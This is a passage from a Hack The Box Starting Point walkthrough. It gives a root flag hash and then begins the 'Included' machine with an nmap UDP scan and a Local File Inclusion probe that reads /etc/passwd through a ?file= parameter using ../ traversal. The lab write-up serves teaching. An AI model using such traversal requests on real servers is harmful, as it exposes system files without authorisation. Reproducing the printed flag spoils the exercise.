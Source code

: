 22. Let's SSH into the machine as root user, the flag is in **/root/root.txt** (*e50bc93c75b634e4b272d2f771c33681*)

    ![](../assets/img/htb-starting-point/66.png)

# 2.5 Included

1. As the hints given, there are UPD port running, we have to scan the UDP port

   ```bash
   nmap -sU <Target_IP>
   ```

   ![](../assets/img/htb-starting-point/86.png)

   By running rustscan, we also know there are TCP running on port 80

   ```
   PORT	STATE	SERVICE	VERSION
   80/tcp	open	http    Apache httpd 2.4.29 ((Ubuntu))
   ```

2. The website is vulnerable with Local File Inclusion. If we cannot access `/etc/passwd` root directory directly, we may need to test by adding `../` in front until the brower appears the file

   ```
   http://<Target_IP>/?file=home.php
   http://<Target_IP>/?file=/etc/passwd
   ```

   ![](../assets/img/htb-starting-point/87.png)
